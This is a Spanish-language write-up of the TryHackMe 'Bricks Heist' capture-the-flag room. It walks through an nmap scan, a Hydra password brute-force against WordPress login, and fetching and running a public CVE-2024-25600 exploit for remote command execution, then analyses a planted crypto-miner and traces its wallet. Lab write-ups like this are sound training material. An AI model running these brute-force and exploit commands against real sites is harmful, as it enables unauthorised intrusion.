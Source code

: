 ```yaml
---
title: "TryHackMe – Bricks "
platform: "THM"
publishedAt: 2025-05-12
cover: "/images/ctf/bricksheist-cover.webp"
preview: "TryHackMe – Bricks Heist | Write-up técnico"
tags: [Hydra, WordPress, OSINT]
link: "https://tryhackme.com/room/tryhack3mbricksheist"
toc:
  - text: "🕵️ Introducción"
    id: "introduccion"
  - text: "🔍 1. Reconocimiento"
    id: "1-reconocimiento"
  - text: "🔢 2. Enumeración de servicios"
    id: "2-enumeracion-de-servicios"
  - text: "🔎 3. Análisis e  investigación"
    id: "3-analisis-e-investigacion"
  - text: "💣 4. Acceso inicial o administrativo"
    id: "4-acceso-inicial-o-administrativo"
  - text: "🔓 5. Explotación"
    id: "5-explotacion"
  - text: "🐚 6. Post-explotación"
    id: "6-post-explotacion"
  - text: "🔍 7. Proceso y servicio sospechoso"
    id: "7-proceso-y-servicio-sospechoso"
  - text: "📁 Análisis del miner"
    id: "analisis-del-miner"
  - text: "🔓 Decodificación de wallet"
    id: "decodificacion-de-wallet"
  - text: "🕵️‍♂️ 8. Asociación con grupo de amenazas"
    id: "8-asociacion-con-grupo-de-amenazas"
  - text: "🧠 9. IOCs (Indicators of Compromise)"
    id: "9-iocs-indicators-of-compromise"
  - text: "📝 10. Conclusión"
    id: "10-conclusion"
---
```


---


#            


## 🕵️ Introducción 


En este reto de TryHackMe nos enfrentamos a un escenario en el que un sitio WordPress ha sido comprometido por un actor malicioso. Nuestra misión es investigar, identificar cómo se produjo el ataque, qué malware fue desplegado y qué grupo está detrás.

<details>
<summary>Herramientas y recursos externos utilizados </summary>

Hydra

> [https://github.com/Chocapikk/CVE-2024-25600](https://github.com/Chocapikk/CVE-2024-25600)

</details>


## 🔍 1. Reconocimiento


```shell
Comenzamos con un escaneo completo:
nmap -sCV -p- 10.10.72.226
```


### Puertos abiertos

- 22
- 80
- 443
- 3306

---


## 🔢 2. Enumeración de servicios

- **22/tcp** – OpenSSH
- **80/tcp** – WebSockify (retorna error 405)
- **443/tcp** – Apache + WordPress 6.5
- **3306/tcp** – MySQL (sin autenticación)

---


## 🔎 3. Análisis e  investigación  


###  Enumeración de WordPress


Usando `curl` y `wpscan`, identificamos que el tema activo es **Bricks**.


Al buscar vulnerabilidades conocidas, encontramos el CVE:

- **CVE-2024-25600**: vulnerabilidad crítica que permite ejecución remota de comandos desde el editor del tema Bricks.

## 💣 4. Acceso inicial o administrativo


Tras enumerar el usuario `administrator`, ejecutamos fuerza bruta con `hydra` y obtenemos acceso:


```shell
hydra -l administrator -P rockyou.txt https://bricks.thm -s 443 -S -f \
http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=Location: /wp-admin/"
```


## 🔓 5. Explotación


Usamos el exploit público para el CVE-2024-25600:


```shell
wget https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/main/CVE-2024-25600.py
```


---


Al ejecutarlo con credenciales válidas, logramos ejecutar comandos remotos y abrir una **shell interactiva**:


```shell
python3 CVE-2024-25600.py --url https://bricks.thm --username administrator --password ***** --cmd id
```


## 🐚 6. Post-explotación


### 
Accedemos a `/var/www/html/` y encontramos la flag inicial:


```plain text
THM{fl46_650c844110baced87e1606453b93f22a}
```


---


## 🔍 7. Proceso y servicio sospechoso


Revisamos los procesos activos y servicios del sistema, encontrando uno sospechoso:


```shell
ubuntu.service - TRYHACK3M
ExecStart=/lib/NetworkManager/nm-inet-dialog
```


---


El proceso asociado es: `nm-inet-dialog`.


---


## 📁 Análisis del miner


Identificamos el archivo de log del minero en:


```shell
/lib/NetworkManager/inet.conf
```


Este archivo contiene líneas como:


```plain text
[*] Bitcoin Miner Thread Started
```


Y una clave codificada como:


```plain text
ID: WW1NeGNY...
```


## 🔓 Decodificación de wallet


Decodificando el valor de `ID` en base64 (tres veces), obtenemos:


```plain text
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```


Una dirección de Bitcoin válida (Bech32) usada para recibir ganancias del minero.


## 🕵️‍♂️ 8. Asociación con grupo de amenazas



Rastreando la dirección en fuentes OSINT, encontramos que ha sido usada en transacciones ligadas al grupo de ransomware **LockBit**.




---


## 🧠 9. IOCs (Indicators of Compromise)


IPs, hashes, URLs, etc.


## 📝 10. Conclusión


Este reto combina:

- Enumeración de WordPress
- Explotación real de CVE
- Escalada post-explotación
- Análisis forense y OSINT

![Bricks_Heist.png](/images/ctf/bricksheist-0.webp)

